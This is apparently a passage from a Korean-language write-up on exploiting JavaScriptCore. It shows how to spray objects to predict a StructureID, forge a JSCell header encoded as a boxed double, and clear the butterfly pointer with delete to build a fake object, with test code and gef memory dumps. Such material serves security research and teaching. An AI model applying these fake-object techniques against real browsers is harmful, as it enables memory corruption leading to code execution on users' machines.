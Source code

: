 여기서 `a`오브젝트는 128이라는 `StructureID`를 가진 오브젝트이다. 만약 저 `StructureID`가 128과 같다면 마지 `a`오브젝트처럼 프로퍼티에 접근이 가능하다. 이를 이용해 내부 프로퍼티를 조작 할 오브젝트를 만든다. `JSC::JSCell` 헤더는 double형식으로 똑같이 맞춰주면 된다.

    a = {}
    a.a = 1
    a.b = 2
    a.c = 3
    print(describe(a))
    
    for (i = 0; i < 0x1000; i++){
    	_ = {}
    	_.a = 1
    	_['a'+i] = 2
    }
    
    print(describe(_))

test code

    gef➤  tel 0x7fffaf715480  // _ object
    0x00007fffaf715480│+0x0000: 0x0100160000001128
    0x00007fffaf715488│+0x0008: 0x0000000000000000
    0x00007fffaf715490│+0x0010: 0xffff000000000001
    0x00007fffaf715498│+0x0018: 0xffff000000000002

가장 마지막 `_` object

    >>> struct.unpack("d", struct.pack('Q', 0x0100160000001128-(1<<48)))
    (7.082855106403679e-304,)

`JSC::JSCell` 헤더 `(1<<48)`을 빼주는 이유는 순수 double로 이루어진 `ArrayWithDouble`이 아니면 boxed형식으로 저장되는데 boxed형식으로 double데이터를 저장할 때 (1<<48)을 더해서 double형식임을 알린다.

    >>> a.a = 7.082855106403679e-304

    gef➤  tel 0x7fffb05b0080
    0x00007fffb05b0080│+0x0000: 0x0100160000000128
    0x00007fffb05b0088│+0x0008: 0x0000000000000000
    0x00007fffb05b0090│+0x0010: 0x0100160000001128  // JSC::JSCell
    0x00007fffb05b0098│+0x0018: 0xffff000000000002
    0x00007fffb05b00a0│+0x0020: 0xffff000000000003

fake object중 `JSC::JSCell` 완성. 다음 butterfly인 `0x00007fffb05b0088│+0x0008: 0x0000000000000000` 를 만들어야 하는데 쓸수가 없다. 왜냐하면

    * The top 16-bits denote the type of the encoded JSValue:
        *
        *     Pointer {  0000:PPPP:PPPP:PPPP
        *              / 0001:****:****:****
        *     Double  {         ...
        *              \ FFFE:****:****:****
        *     Integer {  FFFF:0000:IIII:IIII

0으로 가득 채우면서 쓸 형식이 없다. null은 데이터를 넣는 게 아닌 delete로 해당 프로퍼티를 삭제하면 비워지게 된다.

    >>> delete a.b
    true
    >>> describe(a)
    Object: 0x7fffb05b0080 with butterfly (nil) (Structure 0x7fffaf71aca0:[Object, {a:0, c:2}, NonArray, Proto:0x7fffb05b4000, UncacheableDictionary, Leaf]), StructureID: 4393

